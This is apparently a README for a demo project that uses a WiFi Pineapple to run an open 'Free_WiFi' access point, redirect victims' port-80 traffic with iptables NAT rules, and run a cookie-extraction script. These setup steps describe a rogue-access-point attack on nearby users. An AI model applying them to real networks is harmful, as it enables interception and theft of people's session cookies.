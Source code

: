 # oakland-demo



## Requirements
(preferably in a virtualenv) run:
```
pip install -r requirements.txt
```

on OSX:
```
  brew install --with-python libdnet
```

## Initialization on WiFi Pineapple

1. Turn on the WiFi Pineapple and wait for the blue light to go stable.
1. Connect to the `Free_WiFi` access point.
1. In a browser go to `172.16.42.1:1471` and login.
1. Under the networking tab, enable `client AP` by scanning and connecting to a local WiFi for Internet access.
1. Now, ssh into the WiFi Pineaapple
2. Run the following commands on startup to add iptable rules
3. 
    `iptables -t nat -D PREROUTING 1`
    `iptables -t nat -A PREROUTING -p tcp --dport 80 -i br-lan -j DNAT --to 172.16.42.1:8000`
1. run the cookie capturing script with using the command below. Default interface for listening is `wlan0`


## Usage
```
  python cookie_extracter.py [listening interface]
```
